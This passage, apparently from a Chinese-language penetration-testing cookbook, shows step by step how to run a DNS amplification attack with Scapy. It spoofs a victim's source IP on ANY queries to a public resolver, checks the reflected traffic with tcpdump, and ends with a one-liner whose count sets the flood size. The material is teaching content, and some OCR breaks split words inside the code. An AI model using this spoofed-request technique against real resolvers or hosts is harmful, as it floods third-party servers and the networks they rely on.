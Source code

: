 将源 IP 地址值重新定义为目标系统的 IP 地址的字符串后，我们可以使用`display()`函数确认该值已调整。 然后我们可以重建我们的更改后的请求。 为了验证我们是否能够将 DNS 查询响应重定向到此伪造主机，我们可以在主机上启动 TCPdump：

```
admin@ubuntu:~$ sudo tcpdump -i eth0 src 208.67.220.220 -vv 
[sudo] password for admin: 
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes 
```

在提供的示例中，TCPdump 配置将捕获`eth0`接口上，来自`208.67.220.220`源地址（查询的DNS服务器的地址）的所有流量。 然后，我们可以使用`send()`函数发送我们的请求：

```
>>> send(request) 
. 
Sent 1 packets. 
>>> send(request) 
. 
Sent 1 packets.
```

发送请求后，我们应该返回到 TCPdump 的内容，来验证 DNS 查询的响应是否返回给了受害服务器：

```
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes 
19:07:12.926773 IP (tos 0x0, ttl 128, id 11341, offset 0, flags [none], proto UDP (17), length 350) resolver2.opendns.com.domain > 172.16.36.135. domain: [udp sum ok] 0 q: ANY? google.com. 16/0/0 google.com. A yyz08s13in-f4.1e100.net, google.com. A yyz08s13-in-f5.1e100.net, google. com. A yyz08s13-in-f14.1e100.net, google.com. A yyz08s13-in-f6.1e100. net, google.com. A yyz08s13-in-f2.1e100.net, google.com. A yyz08s13in-f0.1e100.net, google.com. A yyz08s13-in-f3.1e100.net, google.com. A yyz08s13-in-f1.1e100.net, google.com. A yyz08s13-in-f9.1e100.net, google. com. A yyz08s13-in-f7.1e100.net, google.com. A yyz08s13-in-f8.1e100.net, google.com. NS ns2.google.com., google.com. NS ns1.google.com., google. com. NS ns3.google.com., google.com. NS ns4.google.com., google.com. SOA ns1.google.com. dns-admin.google.com. 1545677 7200 1800 1209600 300 (322) 
19:07:15.448636 IP (tos 0x0, ttl 128, id 11359, offset 0, flags [none], proto UDP (17), length 350) resolver2.opendns.com.domain > 172.16.36.135. domain: [udp sum ok] 0 q: ANY? google.com. 16/0/0 google.com. A yyz08s13in-f14.1e100.net, google.com. A yyz08s13-in-f6.1e100.net, google.com. A yyz08s13-in-f2.1e100.net, google.com. A yyz08s13-in-f0.1e100.net, google. com. A yyz08s13-in-f3.1e100.net, google.com. A yyz08s13-in-f1.1e100. net, google.com. A yyz08s13-in-f9.1e100.net, google.com. A yyz08s13in-f7.1e100.net, google.com. A yyz08s13-in-f8.1e100.net, google.com. A yyz08s13-in-f4.1e100.net, google.com. A yyz08s13-in-f5.1e100.net, google. com. NS ns2.google.com., google.com. NS ns1.google.com., google.com. NS ns3.google.com., google.com. NS ns4.google.com., google.com. SOA ns1. google.com. dns-admin.google.com. 1545677 7200 1800 1209600 300 (322) 
```

这个执行 DNS 放大的整个过程，实际上可以用 Scapy 中的单行命令来执行。 此命令使用所有与上一个练习中讨论的相同的值。 然后可以修改`count`值以定义要发送到受害服务器的载荷响应数：

```
>>> send(IP(dst="208.67.220.220",src="172.16.36.135")/UDP()/DNS(rd=1,qdco unt=1,qd=DNSQR(qname="google.com",qtype=255)),verbose=1,count=2) 
.. 
Sent 2 packets.

```

### 工作原理
